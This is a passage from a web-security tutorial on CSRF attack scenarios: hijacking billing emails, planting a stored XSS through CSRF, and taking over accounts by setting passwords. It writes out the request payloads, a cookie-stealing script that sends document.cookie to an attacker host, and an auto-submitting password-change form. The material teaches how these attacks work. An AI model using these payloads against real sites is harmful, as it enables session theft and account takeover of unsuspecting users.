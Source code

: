 Applications often send or disclose information according to user preferences
let’s say the `example.com` web application sends monthly billing emails to a user email address.
so if it's vulnerable to CSRF we can change these emails to ours and the app will send the billing information to us instead of the user, the following request will make it clear
```
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;

(POST request body)
email=ATTACKER_EMAIL&csrf_token=
```
#### Stored Self-XSS by Using CSRF Scenario
let’s say that `example.com`’s financial subdomain, finance .example.com, gives users the ability to create nicknames for each of their linked bank accounts. The account nickname field is vulnerable to self-XSS: there is no sanitization, validation, or escaping for user input on the field. However, only the user can edit and see this field, so there is no way for an attacker to trigger the XSS directly.
However, the endpoint used to change the account nicknames is vulnerable to CSRF.
The application doesn’t properly validate the existence of the CSRF token
```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE

(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```
This request will change the user’s account nickname and store the XSS payload there. 
The next time a user logs into the account and views their dashboard, they’ll trigger the XSS
#### Take Over User Accounts by Using CSRF Scenario
Sometimes CSRF can even lead to account takeover, this happen if the CSRF occurs on high impact endpoint like 
```
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=
```

this can automatically assign the password of any user who visits the malicious page
```html
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
# Exploit and Delivering the CSRF Payload
